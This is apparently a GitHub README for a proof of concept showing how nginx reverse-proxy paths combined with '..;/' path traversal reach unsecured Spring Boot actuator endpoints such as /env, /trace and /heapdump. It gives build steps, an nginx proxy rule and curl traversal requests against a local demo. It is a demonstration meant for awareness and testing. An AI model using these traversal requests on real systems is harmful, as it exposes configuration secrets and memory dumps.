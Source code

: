 # Purpose
This is a PoC that combines Orange Tsais research about ["Breaking parser logic"](http://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) and an unsecure configuration of spring-boot-starter-actuator as documented in [Baeldungs Docs 3.7 Further Customization](https://www.baeldung.com/spring-boot-actuators#boot-1x-actuator)

I do not want to blame Baeldung. His documentations are incredibly helpful. He also explains what `management.security.enabled=false` means. The thing is, that we people will copy and paste this examples without reading the explanations.
Here is another example of this setting: [Learn SpringBoot absolute beginners](https://www.tutorialspoint.com/spring_boot/spring_boot_actuator.htm)

# Impact
If you have a java spring-boot service behind a reverse proxy that only exposes a sub path to the internet people may be able to access all paths on the spring-boot service. Actuator endpoints are just an example.

# Walkthrough 
1. cd spring; mvn clean install
2. cd target; java -jar orange-actuator-poc-0.0.1-SNAPSHOT.jar
3. test java service: `curl http://localhost:8080/api/hello`
4. install nginx and change nginx server listen port to 8081
5. add this to your nginx configuration to add a proxy rule:
```
	location /orange {
                proxy_pass http://localhost:8080/api;
                proxy_redirect     off;
                proxy_set_header   Host $host;
	}
```
6. start nginx
7. `curl "localhost:8081/orange/..;/env"`
8. `curl "localhost:8081/orange/directory/..;/..;/env"`

Nginx will send the request to the spring boot application at `http://localhost:8080/api/directory/..;/..;/env`
The path traversal makes that a request to `http://localhost:8080/env`
/env can be substituted by any default actuator endpoint, e.g. /trace or /heapdump
